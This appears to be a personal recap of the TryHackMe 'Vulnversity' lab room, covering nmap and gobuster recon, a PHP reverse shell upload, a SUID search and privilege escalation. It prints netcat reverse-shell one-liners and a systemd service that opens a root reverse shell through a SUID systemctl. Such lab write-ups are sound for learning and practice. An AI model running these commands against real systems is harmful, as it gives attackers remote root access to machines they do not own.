 ```yaml
---
layout: md
title: TryHackMe Vulnversity Room
description: Vulnversity notes & recap
tags: ['security', 'tryhackme']
terms: ['linux', 'security', 'thm']
icon: shield-exclamation
---
```


{% include project-headers.html %}

[TryHackMe ~ Vulnversity](https://tryhackme.com/room/vulnversity)

Notes on the beginner challenge, vulnversity. Covers basic recon, web application testing, file inclusion, reverse shells and privilege esculation.  

#### Nmap Recon
Use nmap to scan ports and try to find details about services and versions on those ports 
```bash
nmap -sV -sC <target>
```

#### Finding web routes
Try bruteforce webpages/directories using [gobuster](https://github.com/OJ/gobuster)
```bash
gobuster dir -u <webapp> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

#### Netcat commands
```bash
basic connection:
nc -lvnp 4444 [> /path/to/file.ext]
nc <ip> <port> [< /path/to/file.ext]

reverse shells:
nc -e /bin/bash <ip> <port>
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
```
#### File inclusion for reverse shell
Upload [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) as `.phtml`, setup a nc listener, load the phtml location.

#### Search for SUID bit
```bash
find / -perm /4000
...
/bin/systemctl
```

#### Privilege esculation
Reverse shell using netcat openbsd from systemctl service.
```bash
[Unit]
Description=root-shell

[Service]
ExecStart=/bin/bash -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f"

[Install]
WantedBy=multi-user.target
```
```bash
/bin/systemctl enable /path/to/root-shell.service
/bin/systemctl start root-shell
```


